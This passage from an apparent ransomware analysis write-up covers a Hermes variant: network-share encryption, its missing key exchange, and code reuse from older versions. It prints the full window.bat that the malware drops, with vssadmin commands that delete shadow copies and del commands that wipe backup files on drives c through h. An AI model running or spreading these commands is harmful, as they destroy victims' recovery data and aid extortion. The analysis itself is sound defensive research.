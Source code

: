 It then continues on to enumerate netResources and encrypts those files as well. After encryption, it creates another bat file called **window.bat** to delete shadow volume and backup files. Here is its content:

```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

It then creates and executes another bat file called **svchostaaexe.bat** that cycles through the entire file system again to search for and delete all backup files. This is interesting, as we have rarely seen ransomware looking in so much detail for backup files.

There is no functionality that communicates a decryption key to a C2 server. This means that the file UNIQUE_ID_DO_NOT_REMOVE, which contains the unique ID you have to send to the email address, must be encrypted by a public key pair that the attackers have pre-generated and retained on their side.

We have found that there is a heavy code reuse from the old versions of Hermes with this one. The flow of the code looks to be a bit different, but the overall functionality is the same. This is quite clear when comparing the two versions in a disassembler.

Below are two screenshots: the first from the current version we are analyzing, and the second from the old version. You can clearly see that even though the flow and arrangement are a bit different, the functionality remains mostly the same.

![image-20200918164055500](README.assets/image-20200918164055500.png)

![image-20200918164107105](README.assets/image-20200918164107105.png)
